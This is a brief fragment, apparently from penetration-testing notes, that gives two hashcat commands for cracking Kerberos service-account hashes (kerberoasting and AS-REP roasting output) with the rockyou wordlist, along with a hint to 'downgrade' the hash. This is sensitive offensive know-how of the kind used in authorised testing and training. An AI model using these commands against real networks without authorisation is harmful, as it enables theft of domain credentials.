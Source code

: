 
 note downgrade your hash and try to crack it
 
```bash
hashcat -m 13100 -a 0 GetUserSPNs.out ~/rockyou.txt
```


```bash
hashcat -m 18200 -a 0 service-users-hash.txt ~/rockyou.txt
```
